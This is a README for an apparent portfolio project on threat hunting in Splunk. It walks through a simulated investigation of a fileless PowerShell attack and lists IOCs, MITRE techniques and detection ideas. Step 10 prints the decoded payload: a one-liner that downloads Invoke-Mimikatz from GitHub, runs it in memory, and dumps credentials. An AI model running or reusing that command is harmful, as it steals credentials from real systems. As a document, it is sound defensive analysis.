










# 🔎 Threat Hunting & Malware De-obfuscation with Splunk
> **Investigating a Fileless PowerShell Mimikatz Attack Using Windows Event ID 4104**


## Executive Summary

This project simulates a SOC investigation into a sophisticated **fileless PowerShell attack**. Using **Splunk Enterprise**, I analyzed Windows Event ID 4104 Script Block logs, reconstructed fragmented PowerShell execution, de-obfuscated an encoded payload with CyberChef, and identified an **Invoke-Mimikatz credential dumping attack** targeting LSASS memory.

### Skills Demonstrated
- Splunk SPL
- Threat Hunting
- Windows Event Log Analysis
- PowerShell Analysis
- Malware De-obfuscation
- CyberChef
- IOC Identification
- Incident Response

---

## Investigation Workflow

```text
PowerShell Logs (.xml)
        │
        ▼
Splunk Enterprise
        │
        ▼
Event ID 4104 Analysis
        │
        ▼
Fragment Reconstruction
        │
        ▼
Raw Payload Extraction
        │
        ▼
CyberChef De-obfuscation
        │
        ▼
Mimikatz Identified
```

## Technologies

- Splunk Enterprise
- CyberChef
- Kali Linux
- Windows Event ID 4104
- PowerShell Script Block Logging

---

# Investigation Walkthrough

## 1. Configure Event Breaking



Configured custom event breaking to correctly ingest the PowerShell log file.

## 2. Resolve Timestamp Parsing



Verified timestamp parsing to ensure proper event sequencing.

## 3. Search for Suspicious Script Blocks

```spl
source="powershell_malicious.xml" "ScriptBlockText"
```



Initial search exposed heavily obfuscated PowerShell.

## 4. Locate the Execution Wrapper



Identified the malicious execution wrapper responsible for reconstructing the payload.

## 5. Narrow the Investigation



Used Splunk Statistics to isolate high-value events.

## 6. Isolate the Payload



Separated the malicious Script Block from surrounding log data.

## 7. Expand Raw Events

```spl
source="powershell_malicious.xml"
| table _time _raw
```



Recovered the complete PowerShell execution chain using `_raw`.

## 8. Prepare for De-obfuscation



Prepared the extracted payload for decoding.

## 9. Recover Decimal Payload



Located the encoded decimal character array.

## 10. Decode the Malware



CyberChef revealed:

```powershell
IEX (New-Object Net.WebClient).DownloadString(
'https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'
)
Invoke-Mimikatz -DumpCreds
```

---

# Key Findings

- Reconstructed fragmented Event ID 4104 logs.
- Used `_raw` to bypass event truncation.
- Decoded obfuscated PowerShell.
- Confirmed remote payload retrieval from GitHub.
- Identified an in-memory Invoke-Mimikatz credential dumping attack.

---

# Indicators of Compromise

| IOC | Purpose |
|------|---------|
| Invoke-Mimikatz | Credential dumping |
| PowerSploit | Offensive PowerShell framework |
| Net.WebClient | Remote payload retrieval |
| raw.githubusercontent.com | Payload hosting |
| LSASS | Credential target |

---

# MITRE ATT&CK

| Technique | ID |
|-----------|----|
| PowerShell | T1059.001 |
| Obfuscated Files or Information | T1027 |
| Command and Scripting Interpreter | T1059 |
| OS Credential Dumping | T1003 |

---

# Detection Opportunities

- Sigma rules for suspicious Event ID 4104 activity
- Sysmon Event ID 10 monitoring
- PowerShell Constrained Language Mode
- AppLocker / WDAC
- Alerting on suspicious Net.WebClient activity

---

# Resume Highlights

This project demonstrates my ability to:

- Perform threat hunting using Splunk SPL
- Investigate Windows PowerShell attacks
- Reconstruct fragmented forensic artifacts
- Reverse engineer obfuscated malware
- Identify Indicators of Compromise (IOCs)
- Communicate technical findings clearly

---

## Author

**Yvener Bazile**

Cloud Security • SOC Analyst • AWS • Splunk • Threat Hunting
